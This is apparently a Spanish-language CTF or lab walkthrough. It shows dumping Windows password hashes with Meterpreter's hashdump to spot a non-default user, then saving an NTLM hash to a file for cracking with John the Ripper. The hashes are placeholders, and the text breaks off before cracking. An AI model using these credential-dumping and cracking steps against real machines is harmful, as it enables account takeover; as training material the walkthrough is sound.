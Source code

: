 El propósito es **identificar un usuario personalizado** creado en la máquina (distinto de los usuarios predeterminados de Windows), mediante el volcado de hashes de contraseñas.

---

##### Procedimiento

1. En tu sesión de Meterpreter, ejecuta:
    
```bash
hashdump
```
    
2. El comando devolverá una lista de usuarios con sus respectivos hashes. Por ejemplo:
    
```bash
Administrator:xxx:xxxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxx:::
Guest:xxx:xxxxxxxxxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxxxxxxx:::
john:xxxx:xxxxxxxxxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxxxxxxxx:::
```
    
3. Los usuarios predeterminados de Windows suelen ser:
    
    - `Administrator`
        
    - `Guest`
        
    - (Opcionalmente) `DefaultAccount`, `WDAGUtilityAccount`, etc.
        
4. Cualquier otro nombre (por ejemplo: `john`, `pedro`, `pepito`, `admin2`, etc.) se considera **no predeterminado**.

#### 2. Copy this password hash to a file and research how to crack it. What is the cracked password? 

>**En español** 
>Copia este hash de contraseña a un archivo e investiga cómo descifrarlo. ¿Cuál es la contraseña descifrada?

##### Crackear un hash NTLM con John the Ripper
##### Paso 1: Crear el archivo de hash

Crea un archivo llamado `hash.txt` y coloca en él la línea completa del hash encontrado:

```bash
john:xxxx:xxxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxx:::
```

Ejemplo usando terminal:

```bash
echo 'john:xxxx:xxxxxxxxxxxxx:xxxxxxxxxxxxxxxx:::' > hash.txt
```

---
##### Paso 2: Verificar el formato con John

John puede detectar el formato automáticamente si el archivo tiene la estructura adecuada (como la que produce `hashdump`).
